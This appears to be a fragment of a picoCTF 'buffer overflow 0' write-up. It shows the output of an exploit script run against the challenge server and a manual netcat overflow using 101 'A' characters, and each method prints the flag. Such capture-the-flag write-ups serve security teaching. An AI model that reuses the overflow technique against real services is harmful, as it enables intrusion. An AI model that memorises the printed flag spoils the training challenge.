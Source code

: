 ```python
```

```bash
➜  bof0 python bof.py 
[+] Opening connection to saturn.picoctf.net on port 55986: Done
b'picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}\n'
[*] Closed connection to saturn.picoctf.net port 55986
```

Or you can just manually overflow over netcat connection as below.

```bash
➜  bof0 python -c "print('A'*101)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
➜  bof0 nc saturn.picoctf.net 55986
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}
```
